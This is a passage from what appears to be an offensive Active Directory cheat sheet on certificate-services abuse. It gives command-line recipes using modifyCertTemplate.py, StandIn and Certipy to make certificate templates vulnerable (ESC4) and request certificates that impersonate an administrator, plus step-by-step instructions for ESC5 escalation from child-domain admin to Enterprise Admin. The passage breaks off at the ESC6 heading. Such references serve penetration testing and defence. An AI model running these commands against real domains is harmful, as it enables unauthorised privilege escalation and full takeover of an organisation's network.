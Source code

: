   ```ps1
  python3 modifyCertTemplate.py domain.local/user -k -no-pass -template user -dc-ip 10.10.10.10 -add enrollee_supplies_subject -property mspki-Certificate-Name-Flag

  # Add/remove ENROLLEE_SUPPLIES_SUBJECT flag from the WebServer template. 
  C:\>StandIn.exe --adcs --filter WebServer --ess --add
  ```

* Perform ESC1 and then restore the value

  ```ps1
  python3 modifyCertTemplate.py domain.local/user -k -no-pass -template user -dc-ip 10.10.10.10 -value 0 -property mspki-Certificate-Name-Flag
  ```

Using Certipy

```ps1
# overwrite the configuration to make it vulnerable to ESC1
certipy template 'corp.local/johnpc$@ca.corp.local' -hashes :fc525c9683e8fe067095ba2ddc971889 -template 'ESC4' -save-old
# request a certificate based on the ESC4 template, just like ESC1.
certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'ESC4' -alt 'administrator@corp.local'
# restore the old configuration
certipy template 'corp.local/johnpc$@ca.corp.local' -hashes :fc525c9683e8fe067095ba2ddc971889 -template 'ESC4' -configuration ESC4.json
```

## ESC5 - Vulnerable PKI Object Access Control

> Escalate the privileges from **Domain Administrator** in the child domain into **Enterprise Administrator** at the forest root.

**Requirements**:

* Add new templates to the "Certificate" Templates container
* "WRITE" access to the `pKIEnrollmentService` object

**Exploitation**:

* Use `PsExec` to launch `mmc` as SYSTEM on the child DC: `psexec.exe /accepteula -i -s mmc`
* Connect to "Configuration naming context" > "Certificate Template" container
* Open `certsrv.msc` as SYSTEM and duplicate an existing template
* Edit the properties of the template to:
    * Granting enroll rights to a principal we control in the child domain.
    * Including Client Authentication in the Application Policies.
    * Allowing SANs in certificate requests.
    * Not enabling manager approval or authorized signatures.
* Publish the certificate template to the CA
    * Publish by adding the template to the list in `certificateTemplate` property of `CN=Services`>`CN=Public Key Services`>`CN=Enrollment Services`>`pkiEnrollmentService`
* Finally use the ESC1 vulnerability introduced in the duplicated template to issue a certificate impersonating an Enterprise Administrator.

## ESC6 - EDITF_ATTRIBUTESUBJECTALTNAME2
